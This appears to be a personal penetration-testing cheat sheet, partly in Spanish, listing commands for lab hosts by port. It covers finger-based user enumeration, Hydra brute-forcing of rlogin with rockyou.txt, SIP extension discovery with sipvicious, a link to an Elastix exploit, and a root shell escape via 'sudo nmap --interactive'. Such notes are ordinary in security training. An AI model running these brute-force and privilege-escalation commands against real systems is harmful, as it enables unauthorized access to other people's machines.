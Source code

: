 #  Redis
### 6379
---
**TODO**


# Finger
### 79
---
la aplicacion finger es como who.
el protocolo te deja ver datos de usuarios

```
root@kali:~#  finger  root  10.10.10.15
```

podemos bruteforcear el rlogin  de 79
```
hydra -L rlogin-users.txt -P rockyou.txt rlogin://osiris.acme.com
```
o incluso antes armar una lista
```
for i in $(cat /usr/share/wordlists/fuzzdb/wordlists-user-passwd/names/namelist.txt) ;do finger $i 10.10.10.76 >> finger-bruteforce.out;done
```

## NSE
```
finger.nse
```

# SIP
##5060
---
## Sipvicious
 SIP VoIP phones info
 ```
 svmap 10.10.10.7
 ```
 ```
 svwar -m INVITE -e100-300 10.10.10.7
 EXTENSION 233 PROBABLY EXIST
 ```
 Elastix Exploit needs the extension.
 https://www.exploit-db.com/exploits/18650/
```
beep privesc after elastix exploit
> sudo nmap --interactive
> !sh
```

